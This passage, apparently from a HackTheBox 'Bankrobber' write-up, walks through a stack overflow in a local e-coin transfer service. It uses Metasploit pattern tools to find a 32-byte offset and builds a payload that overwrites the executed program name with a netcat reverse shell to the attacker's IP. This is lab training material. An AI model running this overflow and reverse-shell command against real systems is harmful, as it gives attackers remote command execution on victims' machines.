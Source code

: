 It seems to overflow the name of the executable that’s running. The name of the executable must be stored on the stack, and this overflow is overwriting it. I’ll examine the binary in [Beyond Root](https://0xdf.gitlab.io/2020/03/07/htb-bankrobber.html#bankv2exe). I can use `msf-pattern_create` to get a pattern and submit it as the amount:

```bash
msf-pattern_create -l 40
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bankrobber]
└─$ msf-pattern_create -l 40
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A

┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bankrobber]
└─$ nc localhost 910
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A
 [$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: 0Ab1Ab2A

 [$] Transaction in progress, you can safely disconnect...

```

Now I can submit the first four bytes to `msf-pattern_offset` and get the offset:
`
```bash
msf-pattern_offset -q 0Ab1
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bankrobber]
└─$ msf-pattern_offset -q 0Ab1    
[*] Exact match at offset 32
```

I already have `nc` located at `\Users\Cortin\AppData\Local\Temp\n.exe`. I’ll try to overwrite the call with that. I’ll create a payload:

```bash
python -c 'print "A"*32 + "\\Users\\Cortin\\AppData\\Local\\Temp\\n.exe -e cmd.exe 10.10.14.5 1234"'
```

```payload
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\Users\Cortin\AppData\Local\Temp\n.exe -e cmd.exe 10.10.14.5 1234
```
